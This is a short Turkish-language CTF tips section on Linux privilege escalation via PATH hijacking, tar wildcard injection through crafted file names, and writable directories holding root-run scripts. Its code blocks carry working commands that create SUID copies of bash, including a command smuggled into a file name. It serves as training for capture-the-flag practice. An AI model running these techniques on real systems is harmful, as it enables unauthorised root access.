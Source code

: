 
## CTF'lerde İşinizi Kolaylaştıracak İpuçları ve Gelişmiş Teknikler

*   **`PATH` Manipülasyonu:**
    Eğer `root` olarak çalışan bir betik (örn: `planner.sh` veya SUID'li bir program) komutları tam yolunu belirtmeden çağırıyorsa (örn: `service apache2 start` yerine sadece `service`) ve siz `PATH` değişkenini etkileyebiliyorsanız, bu durumu sömürebilirsiniz.
    ```bash
    # print.sh içinde (eğer planner.sh source ile çalıştırıyorsa veya PATH'i etkiliyorsa)
    export PATH=.:$PATH # Mevcut dizini PATH'in başına ekle
    # Ardından mevcut dizine (örn: /home/cihan/) "service" adında zararlı bir betik oluşturun.
    # /home/cihan/service:
    # #!/bin/bash
    # cp /bin/bash /tmp/rootbash2
    # chmod u+s /tmp/rootbash2
    ```

*   **Wildcard Enjeksiyonu (Örn: `tar`):**
    Eğer `planner.sh` gibi `root` betiği, sizin kontrolünüzdeki bir dizinde wildcard (`*`) ile bir komut çalıştırıyorsa (örn: `tar czf /backups/cihan_home.tar.gz /home/cihan/*`), dosya isimlerini kullanarak komut enjeksiyonu yapabilirsiniz.
    `tar` için:
    ```bash
    # /home/cihan/ dizininde:
    touch -- "--checkpoint=1"
    touch -- "--checkpoint-action=exec=bash -c 'cp /bin/bash /tmp/wildcard_bash; chmod u+s /tmp/wildcard_bash'"
    # planner.sh bir sonraki çalışmasında tar bu seçenekleri komut olarak algılayacaktır.
    ```
    Diğer komutlar için (örn: `chown`, `chmod`) benzer teknikler GTFOBins'de bulunabilir.

*   **Paylaşılan Yazılabilir Dizinler ve Betikler:**
    Bazen `/tmp`, `/var/tmp`, `/dev/shm` gibi herkesin yazabildiği dizinlerde `root` tarafından çalıştırılan veya okunan betikler/konfigürasyon dosyaları bulunabilir. Veya, bir web sunucusunun döküman kökünde (`/var/www/html`) `root` tarafından çalıştırılan bir `cleanup.php` olabilir ve siz bu dosyayı değiştirebilirsiniz.
